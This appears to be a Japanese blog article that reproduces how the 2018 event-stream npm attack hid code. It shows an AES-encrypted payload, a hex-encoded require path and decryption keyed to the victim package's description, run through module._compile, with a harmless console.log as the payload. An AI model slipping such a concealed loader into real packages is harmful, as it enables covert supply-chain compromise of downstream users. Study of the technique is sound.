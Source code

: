 # 概要

本記事は直近で起きた npm パッケージ event-stream への攻撃のうち、任意のコードを忍ばせる手法の追試です。

⚠️ 今回は攻撃者がパッケージのメンテナであったために発生したことであり、この記事を読んで誰でも攻撃できるようになるわけではありません。
⚠️ 念のためですが、悪用しないようにお願いします。

# 参考

[2018/11/27 に判明した npm パッケージ乗っ取りについて](https://qiita.com/azs/items/b15bc456bee3a7892950)

# コード

https://github.com/kik4/npm-evil-code-injection

# ポイント

今回の攻撃では minify したコードにのみ攻撃コードが挿入されていました。ただ minify しただけでなく、一見してそれとわからないようにコードが隠蔽されていました。この記事で確かめる隠蔽手法は次の３つです。

1. 攻撃コードの暗号化
2. 攻撃実行コードの require パスの隠蔽
3. package.json の description を見て攻撃対象を限定

# 攻撃手順

今回題材とするコードは次の通りです。

```ts
// 正常なコード
export default () => console.log("This is good code.");
```

```ts
// 攻撃コード
console.log("This is evil code.");
```

上記の正常なコードに攻撃コードを忍ばせます。そしてこのパッケージを実行する npm パッケージの description が`run evil code`の時だけ攻撃コードが実行されるようにしましょう。

## 1. 攻撃コードの暗号化 & 3. description で攻撃対象を限定

まず攻撃コードを AES 暗号化します。暗号化は node コマンドで REPL を起動させてちゃっちゃとやってしまいます。
暗号化する文字列は攻撃コードである`console.log("This is evil code.")`ですね。
パスワードは description で起動させる`run evil code`です。複合化時に実行しているパッケージの description を拾って与えることで、攻撃対象を限定します。

```js
var cipher = require("crypto").createCipher("aes-256-cbc", "run evil code");
var encoded =
  cipher.update('console.log("This is evil code.")', "utf8", "hex") +
  cipher.final("hex");
encoded;
```

結果は`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`です。

## 2. 攻撃実行コードの require パスの隠蔽

### index.ts

正常なコードを書いたファイルを index.ts。攻撃コードを忍ばせ、攻撃を実行するコードを書いたファイルを evil.ts とします。
まずは index.ts から evil.ts を require します。evil() の実行が攻撃コードの実行になります。

```ts
export default () => {
  const evil = require("./evil.ts").default;
  evil();
  console.log("This is good code.");
};
```

今回はこの require の中の文字列が hex エンコードされていました。./evil.ts をエンコードすると`2E2F6576696C`になります。
これをデコード処理を入れて書き換えます。

```ts
export default () => {
  const evil = require(Buffer.from("2E2F6576696C", "hex").toString()).default;
  evil();
  console.log("This is good code.");
};
```

一見して何のファイルが読み込まれているかわからなくなりましたね。

### evil.ts

次に evil.ts の用意です。この中で暗号化したコードの複合と実行を行います。
暗号化された攻撃コードは`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`。
これを実行パッケージの package.json の description を格納している`process.env.npm_package_description`で復号し、それを実行してやります。

```ts
import * as crypto from "crypto";

// _compile()の定義が無かったので追加
declare global {
  interface NodeModule {
    _compile(arg1: string, arg2: string): any;
  }
}

export default () => {
  // 攻撃コード
  const data =
    "cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f";
  // 復号器
  const decipher = crypto.createDecipher(
    "aes256",
    process.env.npm_package_description || ""
  );

  // パスワードが違うとこけるのでキャッチ
  try {
    // 復号
    const payload =
      decipher.update(data, "hex", "utf8") + decipher.final("utf8");
    // 実行
    module._compile(payload, "");
  } catch {}
};
```

以上で攻撃コードの仕込みは完了です。

# 攻撃を受けてみる

攻撃される側のパッケージを用意します。攻撃を仕込んだパッケージは公開してもしょうがないので今回はローカルインポートにします。
package.json では攻撃コードが実行されるように description を`run evil code`にしておきます。

```json
{
  // 略
  "description": "run evil code",
  // 略
  "dependencies": {
    "library": "../library" // ローカルインポート
    // 略
  }
}
```

実行コードはこんな感じ。

```ts
import library from "library";
library();
```

これを実行した出力結果は以下の通りです。

```
// 期待する結果
// This is good code.

// 実際の結果
This is evil code.
This is good code.
```

無事に攻撃コードが実行されました！
description を書き換えると`This is evil code.`が出てきません。ちゃんと攻撃対象を絞れました。
